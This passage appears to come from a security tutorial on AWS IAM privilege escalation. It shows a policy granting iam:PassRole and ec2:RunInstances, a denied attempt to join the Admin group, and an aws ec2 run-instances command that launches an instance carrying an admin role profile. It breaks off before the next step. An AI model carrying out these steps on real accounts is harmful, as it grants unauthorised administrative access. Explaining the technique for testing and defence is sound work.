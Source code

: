 ### Example
In this example, the user is part of a single group. The group has only a single policy applied to it. The policy provides the user with the iam:PassRole permission, as well as the ability to list and run instances:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": [
        "iam:PassRole",
        "ec2:DescribeInstances",
        "ec2:RunInstances"
      ],
     "Resource": "*"
    }
  ]
}
```

The user is not currently able to add their user account to the Admin group:

```bash
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile privesc
```

An error occurred (AccessDenied) when calling the AddUserToGroup operation: User: arn:aws:iam::[REDACTED]:user/privesc_test is not authorized to perform: iam:AddUserToGroup on resource: group Admin

First, the user creates a new instance using the following command:

```bash
➜ aws ec2 run-instances --image-id ami-0de53d8956e8dcf80 --instance-type t2.micro --iam-instance-profile Name=adminaccess --key-name "Public" --security-group-ids sg-ca4a1fb8 --profile privesc --region us-east-1
```

This command includes the following switches:

* `image-id` specifies the AWS Machine Image (AMI) to use. The image-id used here is for an Amazon Linux VM. AWS regularly changes their AMIs, so make sure to use a current value for the image-id.
* `instance-type` specifies the type of instance to create. In this case, it's a free-tier eligible instance.
* `iam-instance-profile` is the role to assign to the EC2 instance. This refers to an IAM role by name, in this case, adminaccess. This role provides administrative access to AWS.
* `key-name` refers to a stored SSH key pair by name.
security-group-ids specifies one or more security groups that will to apply to the instance. The security group applied in this example provides only SSH access.
* `region` refers to the region where the instance should be created.
The result of this command is very long and not shown here to save space. The output provides information on the instance that was just created, and most importantly, the instance ID. The newly created instance will be in the "pending" state for a couple of minutes until provisioning is complete. The user can request information about the instance with the following command, replacing instance-id with the appropriate instance ID:
